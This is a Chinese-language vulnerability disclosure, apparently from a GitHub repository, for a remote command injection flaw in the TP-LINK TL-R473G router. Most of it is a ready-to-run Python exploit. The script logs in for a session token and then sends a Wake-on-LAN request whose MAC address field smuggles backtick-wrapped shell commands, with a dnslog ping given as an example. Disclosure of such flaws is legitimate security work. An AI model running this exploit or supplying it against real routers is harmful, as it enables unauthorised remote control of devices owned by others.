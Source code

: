 # TP-LINK TL-R473G 存在命令注入漏洞

**CVE ID**:  

**CNVD ID**: 

**漏洞厂商**:  TP-LINK

**厂商官网**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**影响产品**: TL-R473G

**影响产品版本**: 2.0.1 Build 220529 Rel.65574n(最新版)

**固件链接**: 非最新版固件 https://smb.tp-link.com.cn/service/detail_download_8644.html

**报送者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## 漏洞描述

TP-LINK TL-R473G具有远程命令执行漏洞，远程攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## detail

没有有效的MAC地址过滤，仅将`-`替换为`:`。

![image-20220621165232656](./img/image-20220621165232656.png)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

